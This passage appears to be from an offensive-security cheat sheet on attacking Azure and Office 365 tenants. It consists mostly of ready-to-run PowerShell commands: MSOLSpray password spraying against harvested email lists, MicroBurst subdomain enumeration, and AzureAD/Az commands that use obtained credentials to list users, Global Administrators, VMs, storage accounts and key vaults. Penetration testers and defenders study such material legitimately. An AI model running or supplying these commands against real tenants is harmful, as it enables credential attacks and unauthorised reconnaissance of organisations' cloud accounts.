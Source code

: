     ⧉ Copied!
    
- Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon

#### Password spraying

```powershell
PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
```

⧉ Copied!

### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

⧉ Copied!

### Enumerate tenant with Azure AD Powershell

```powershell
Import-Module C:\Tools\AzureAD\AzureAD.psd1
Import-Module C:\Tools\AzureADPreview\AzureADPreview.psd1
PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential("test@<TENANT NAME>.onmicrosoft.com", $passwd)
PS Az> Connect-AzureAD -Credential $creds

PS AzureAD> Get-AzureADUser -All $true
PS AzureAD> Get-AzureADUser -All $true | select UserPrincipalName
PS AzureAD> Get-AzureADGroup -All $true
PS AzureAD> Get-AzureADDevice
PS AzureAD> Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
PS AzureADPreview> Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName
```

⧉ Copied!

### Enumerate tenant with Az Powershell

```powershell
PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential ("test@<TENANT NAME>.onmicrosoft.com", $passwd)
PS Az> Connect-AzAccount -Credential $creds

PS Az> Get-AzResource
PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com
PS Az> Get-AzVM | fl
PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}
PS Az> Get-AzFunctionApp
PS Az> Get-AzStorageAccount | fl
PS Az> Get-AzKeyVault
```
